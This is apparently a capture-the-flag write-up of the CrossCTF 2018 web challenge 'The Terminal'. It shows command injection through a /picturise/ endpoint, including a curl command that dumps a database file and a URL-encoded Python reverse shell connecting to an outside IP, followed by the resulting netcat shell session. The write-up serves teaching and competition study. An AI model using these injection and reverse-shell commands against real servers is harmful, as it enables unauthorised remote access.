

# CrossCTF Finals 2018: The Terminal (web)

> How long more can you stand it?
>
> http://ctf.pwn.sg:4083

## Challenge

It's a Fake Terminal. Look at the `<title>`. First thing to do in any interactive web app is view-source to find interesting things, followed by exploiting the server. 

DevTools > Debugger -> terminal.js has nothing interesting. 

However, boop.js has our command definitions for the terminal. All these other commands look boring other than posts and date. 

We tried to look at posts, but it seems to require some login. We skipped that and went straight into the date command. 



The path of the "image" seems to hint that there could be more than one "picturisable" option. A clear hint that this runs the `date` command, especially after seeing it's format. 


We tried substituting `date` with `ls`: 


Yay we have files! Maybe it's in the database.db: 

```
curl "http://ctf.pwn.sg:4082/picturise/cat%20database.db|strings|head%20-n%201" | imgcat
```


(I use iTerm2, imgcat prints an image into my terminal) Using `cat`, `strings`, `head` and `tail`, I pretty much navigated through the entire database without gaining anything valuable except for being able to write a post as `admin`. Eww. 

We took a step back. Maybe it's just hiding somewhere in the filesystem. Let's pop a reverse shell because we're lazy and want to use slashes even though there's no need to:

```
curl "http://ctfsf.pwn.sg:4082/picturise/python%20-c%20'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket(socket.AF_INET%2Csocket.SOCK_STREAM)%3Bs.connect((%22138.75.145.240%22%2C8080))%3Bos.dup2(s.fileno()%2C0)%3B%20os.dup2(s.fileno()%2C1)%3B%20os.dup2(s.fileno()%2C2)%3Bp%3Dsubprocess.call(%5B%22sh%22%2C%22-i%22%5D)%3B'"
```

(Downloaded off the internet, URLEncoded, modified to connect to an internet server. Why does this challenge have access to the internet!?) We received our $money!

```sh
ambrosechua@some-magical-server $ nc -l 8080
$ ls
app.py
database.db
fonts
init.sql
motd.txt
$ ls /
backend
bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
service
srv
sys
tmp
usr
var
$ ls /home/
theterminal
$ ls /home/theterminal
the_flag_is_here_not_elsewhere
$ cat /home/theterminal/the_flag_is_here_not_elsewhere
CrossCTF{C4ther1ne_zet4_j0n3s_w4s_1n_l0st_1n_tr4nsl4t1on}
```

Wohoo! Fast way to find the flag file.

